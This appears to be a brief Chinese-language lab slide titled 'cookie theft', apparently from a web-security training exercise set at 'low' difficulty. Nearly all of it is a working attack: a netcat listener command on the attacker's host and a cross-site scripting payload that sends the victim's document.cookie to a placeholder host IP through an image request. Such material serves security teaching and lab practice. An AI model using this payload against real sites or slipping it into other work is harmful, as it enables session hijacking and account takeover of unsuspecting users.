

# Cookies 窃取
在主机上开启监听
Nc -nvlp 80
设置为low，输入如下内容
<script>new Image().src=“http://主机IP/a.php?output="+document.cookie;</script>